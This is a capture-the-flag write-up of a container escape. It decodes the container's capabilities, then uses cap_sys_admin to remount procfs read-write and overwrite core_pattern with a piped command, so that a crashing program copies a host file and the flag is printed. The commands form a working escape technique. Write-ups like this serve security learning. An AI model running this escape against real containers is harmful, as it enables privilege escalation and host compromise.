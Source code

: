 ```
> cat /proc/self/status | grep CapEff
CapEff: 00000000fdecbfff
> capsh --decode=00000000fdecbfff
0x00000000fdecbfff=cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_linux_immutable,cap_net_bind_service,cap_net_broadcast,cap_net_admin,cap_net_raw,cap_ipc_owner,cap_sys_chroot,cap_sys_ptrace,cap_sys_admin,cap_sys_boot,cap_sys_nice,cap_sys_resource,cap_sys_tty_config,cap_mknod,cap_lease,cap_audit_write,cap_audit_control,cap_setfcap
```

Looking at the config shows we are explicitly allowed to invoke add_key, keyctl, or bpf syscalls inside the container. 

```
[Exec]
Boot=true
PrivateUsers=false
SystemCallFilter=add_key keyctl bpf

[Network]
Zone=guests
Port=1337

[Files]
Bind=/dev/fuse
```

I know the author well enough to know that the intended solution is bpf fuckery (with the bpf syscall and cap_sys_admin) but I don't know bpf well and didn't want to do that. Fortunately for me, cap_sys_admin is an unreasonably powerful capability and there are other routes. 

Systemd, by default, mounts procfs and sys as read-only. It does not prevent a user with the appropriate (and default) capabilities from mounting procfs again r/w. Once you have write access to procfs it's trivial to escalate privileges by modifying core_pattern.

```
> mkdir proc
> mount -t proc proc proc
> echo '|/usr/bin/cp /flag.txt /var/lib/machines/ubuntu/flag.txt' > proc/sys/kernel/core_pattern
./crash
> cat /flag.txt
potluck{sometimes-we-all-get-in-a-little-over-our-heads-dont-we}
```
